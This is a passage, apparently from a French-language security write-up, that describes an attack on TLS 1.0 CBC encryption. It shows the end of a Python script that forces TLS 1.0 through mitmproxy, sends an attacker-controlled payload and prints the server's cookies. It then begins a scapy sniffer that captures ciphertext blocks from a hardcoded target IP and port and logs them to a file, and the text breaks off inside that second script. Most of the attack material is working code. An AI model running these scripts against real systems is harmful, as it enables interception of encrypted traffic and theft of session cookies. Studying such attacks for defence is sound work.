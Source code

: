 ```python
        print("[+] Statut HTTP :", resp.status_code)
        print("[+] Contenu de la réponse :\n", resp.text)

        # Affiche les cookies retournés par le serveur
        if resp.cookies:
            print("[+] Cookies reçus :")
            for cookie in resp.cookies:
                print(f"  - {cookie.name} = {cookie.value}")
        else:
            print("[!] Aucun cookie reçu.")
    except Exception as e:
        print("[-] Erreur lors de la requête :", e)

if __name__ == "__main__":
    main()

```

Ce script:

1. Force l'utilisation de TLS 1.0 via un adaptateur personnalisé
2. Utilise mitmproxy comme intermédiaire pour intercepter le trafic
3. Envoie un payload contrôlé par l'attaquant
4. Affiche les cookies retournés par le serveur

### 5.2 Capture des blocs CBC

Le script suivant permet de capturer les blocs CBC du trafic chiffré:

```python
#!/usr/bin/env python3
from scapy.all import sniff, TCP, Raw
from collections import defaultdict
import binascii

# Configuration
TARGET_IP = "37.187.103.134"
TARGET_PORT = 8443
OUTPUT_FILE = "cbc_blocks.txt"

# Utilisé pour éviter les doublons
seen_blocks = set()

def packet_callback(pkt):
    if pkt.haslayer(TCP) and pkt[TCP].dport == TARGET_PORT:
        if pkt.haslayer(Raw):
            ciphertext = pkt[Raw].load.hex()
            first_block = ciphertext[:32]

            print(f"[*] Bloc chiffré: {first_block}...")

            # Détection simple de répétition
            if hasattr(packet_callback, 'last_cipher'):
                if first_block == packet_callback.last_cipher:
                    print("[!] Possible fuite CBC détectée!")

            packet_callback.last_cipher = first_block

            # Écriture dans le fichier si bloc jamais vu
            if first_block not in seen_blocks:
                seen_blocks.add(first_block)
                with open(OUTPUT_FILE, "a") as f:
                    f.write(first_block + "\n")

def start_sniffing():
```